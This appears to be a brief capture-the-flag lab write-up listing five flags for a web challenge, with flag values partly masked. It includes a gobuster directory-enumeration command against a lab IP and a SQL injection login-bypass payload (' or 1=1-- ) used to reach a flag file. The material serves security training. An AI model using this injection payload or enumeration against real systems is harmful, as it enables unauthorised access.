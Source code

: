 Flag1 
```
cookie_XXXXXX
```
Flag 2
```
headers_are_XXXXXXXX
```

Flag 3:
```
8fc651a739befc58d450dc48e1f1XXXX
```

Flag 4:
```
gobuster dir -u http://10.10.48.141 -w  /usr/share/wordlists/dirb/common.txt 
/portal
```
Flag 5
```
' or 1=1-- 

A space is provided instead of --+

less /home/ubuntu/flag5.txt

335e2d13f36558ba1e67969a171XXXX
```

